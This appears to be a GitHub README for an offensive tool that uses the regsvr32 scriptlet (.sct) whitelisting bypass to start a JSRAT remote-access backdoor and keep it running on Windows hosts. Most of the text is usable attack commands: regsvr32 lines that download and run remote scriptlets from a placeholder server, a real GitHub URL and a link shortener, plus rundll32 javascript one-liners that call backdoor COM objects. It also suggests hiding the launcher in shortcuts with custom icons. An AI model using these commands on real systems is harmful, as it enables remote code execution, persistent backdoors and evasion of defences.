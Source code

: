 Another way of JSRAT on SCTPersistence.
---

Thanks to Casey Smith@subTee

https://github.com/subTee/SCTPersistence


His Way:


1.On host, execute regsvr32.exe /u /n /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-rewrite the regkey


-the Class definition comes form the interwebs http://server/c2.js


2.c2.js


-javascript payload


-.sct format


3.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Component.Backdoor");x.Main();`


or


-js


`var x = new ActiveXObject("Component.Backdoor");
x.Main();
var x = new ActiveXObject("Component.Backdoor");
x.Exec();`


My Way:


1.On host, execute regsvr32.exe /u /n /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-Connect to the JSRAT server


2.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Empire");x.Exec();`


-js


`var ref = new ActiveXObject("JSRAT");
ref.Exec();`




---
### Usage:

1.(local)


`regsvr32.exe /u /n /s /i:Backdoor.sct scrobj.dll`


or (remote)


`regsvr32.exe /u /n /s /i:http://example/Backdoor.sct scrobj.dll`


2.run BackdoorTest.js to start JSRAT



---
---

## ShortJSRAT
You can run the following code to start JSRAT:


`regsvr32 /s /n /u /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/ShortJSRAT.sct scrobj.dll`

### Why create this:

Limit command length to 260 characters.


When we create a Windows shortcut with personnalized icon to start JSRAT,the code of JSRAT is longer than 260charaters.


But we can use regsvr32.exe to run .sct file with very few letters.


What's more, the third-party link shortener Twitter can save more space.


Google url shortener,like this:


`regsvr32 /s /n /u /i:https://goo.gl/ijB12k scrobj.dll`


Details:

《Use SCT to Bypass Application Whitelisting Protection》




